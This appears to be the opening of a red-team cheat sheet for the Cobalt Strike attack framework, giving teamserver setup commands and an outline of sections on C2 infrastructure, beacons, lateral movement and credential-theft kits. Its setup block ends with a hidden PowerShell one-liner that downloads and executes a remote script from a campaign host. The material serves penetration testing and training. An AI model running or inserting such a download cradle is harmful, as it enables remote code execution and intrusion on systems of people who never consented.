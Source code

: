 # Cobalt Strike

> Cobalt Strike is threat emulation software. Red teams and penetration testers use Cobalt Strike to demonstrate the risk of a breach and evaluate mature security programs. Cobalt Strike exploits network vulnerabilities, launches spear phishing campaigns, hosts web drive-by attacks, and generates malware infected files from a powerful graphical user interface that encourages collaboration and reports all activity.


```powershell
$ sudo apt-get update
$ sudo apt-get install openjdk-11-jdk
$ sudo apt install proxychains socat
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
$ sudo ./teamserver 10.10.10.10 "password" [malleable C2 profile]
$ ./cobaltstrike
$ powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://campaigns.example.com/download/dnsback'))" 
```

## Summary

* [Infrastructure](#infrastructure)
    * [Redirectors](#redirectors)
    * [Domain fronting](#domain-fronting)
* [OpSec](#opsec)
    * [Customer ID](#customer-id)
* [Payloads](#payloads)
    * [DNS Beacon](#dns-beacon)
    * [SMB Beacon](#smb-beacon)
    * [Metasploit compatibility](#metasploit-compatibility)
    * [Custom Payloads](#custom-payloads)
* [Malleable C2](#malleable-c2)
* [Files](#files)
* [Powershell and .NET](#powershell-and-net)
    * [Powershell commabds](#powershell-commands)
    * [.NET remote execution](#net-remote-execution)
* [Lateral Movement](#lateral-movement)
* [VPN & Pivots](#vpn--pivots)
* [Kits](#kits)
    * [Elevate Kit](#elevate-kit)
    * [Persistence Kit](#persistence-kit)
    * [Resource Kit](#resource-kit)
    * [Artifact Kit](#artifact-kit)
    * [Mimikatz Kit](#mimikatz-kit)
    * [Sleep Mask Kit](#sleep-mask-kit)
    * [Thread Stack Spoofer](#thread-stack-spoofer)
* [Beacon Object Files](#beacon-object-files)
* [NTLM Relaying via Cobalt Strike](#ntlm-relaying-via-cobalt-strike)
* [References](#references)
